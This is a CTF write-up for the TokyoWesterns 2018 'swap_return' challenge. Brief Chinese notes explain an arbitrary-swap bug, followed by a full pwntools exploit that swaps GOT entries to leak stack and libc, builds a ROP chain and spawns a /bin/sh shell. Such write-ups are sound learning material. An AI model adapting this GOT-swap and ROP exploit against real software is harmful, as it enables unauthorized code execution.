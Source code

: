```yaml
---
title: Swap_return
date: 2018-09-06 16:15:50
tags: pwn
layout: post
---
```

TokyoWesterns CTF 4th 2018

swap_return 
<!--more-->
# Swap Returns
[bin][1]



## 0x00 pre
* rewrite func's got to main to grow stack
* write into stack and do swap to make ropchain
## 0x01 Analysis
漏洞点在swap
```c
tmp = *p1;
*p1 = *p2;
*p2 = tmp;
tmp = 0LL;
```

允许任意两地址的值交换

* 一开始我们利用atoi和printf的got值交换来泄露stack
* 利用rop去leak libc(利用改exit为main或者start去抬栈)
* do system call


## 0x02 EXP
```python
from pwn import *
#context.log_level="debug"
def swap(a1,a2):
	set2(a1,a2)
	p.readuntil("choice: \n")
	p.send("2".ljust(2))
def set2(a1,a2):
	p.readuntil("choice: \n")
	p.send("1".ljust(2))
	p.readuntil("address: \n")
	p.sendline(str(a1))
	p.readuntil("address: \n")
	p.sendline(str(a2))
def ext():
	p.readuntil("choice: \n")
	p.send("3".ljust(2))
p=process("./swap")
p.readuntil("choice: \n")
p.send("7".ljust(2))
atoi_got=0x601050
printf_got=0x601038
exit_got=0x601018
puts_plt=0x4006a0
pop_rdi_ret=0x400a53
gets_plt=0x1
leave=0x4008e7
puts_got=0x601028
swap(atoi_got,printf_got)

p.readuntil("choice: \n")
p.send("%p")
data=p.read(0xe)
data=int(data,16)
log.info(hex(data))
#leak stack
p.readuntil("choice: \n")
p.send("2".ljust(2))
#swap back
start=data+138
swap(exit_got,start)
#data+42,data+50
set2(pop_rdi_ret,puts_got)
ext()
main=0x4008e9
#data-230,data-222
set2(puts_plt,main)
ext()
#data-502,data-494

set2(main,leave)
ext()

gad1=data+42
gad2=data+50
gad3=data-230
gad4=data-222
gad5=data-502
gad6=data-494

rop=data-734
swap(rop+0,gad1)#p64(pop_rdi_ret)
swap(rop+8,gad2)#p64(puts_got)
swap(rop+16,gad3)#p64(puts_plt)
swap(rop+24,gad5)#p64(start)
swap(exit_got,gad6)


#swap ret & main to grow stcak

p.sendafter("choice: \n","3 ")
p.readuntil("Bye. ")

leak=p.readline()
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
base=u64(leak[:-1].ljust(8,"\0"))
libc.address=base-libc.symbols['puts']


one_gadget=0x4526a+libc.address
system=libc.symbols['system']
sh=libc.search("/bin/sh").next()
swap(exit_got,gad4)
ext()

set2(sh,system)#data-718
ext()
set2(leave,pop_rdi_ret)#data-870
ext()

gad7=data+(0x7fffffffd900-0x7fffffffdc26)#(sh)
gad8=gad7+8
gad9=data-870#(leave)
gad10=data-862#(pr)
rop=0x7fffffffd8a8-0x7fffffffdc26+data
swap(rop+0,gad10)
swap(rop+8,gad7)
swap(rop+16,gad8)
gdb.attach(p,'''b * 0x4009c8''')
swap(exit_got,gad9)
ext()
p.interactive(">>")
```

## review

* 一开始的printf着实没想到...
* rop做了很久...
* 太菜了！

[1]:https://github.com/n132/banana/tree/master/Pwn/TokyoWesterns%20CTF%204th%202018/swap_return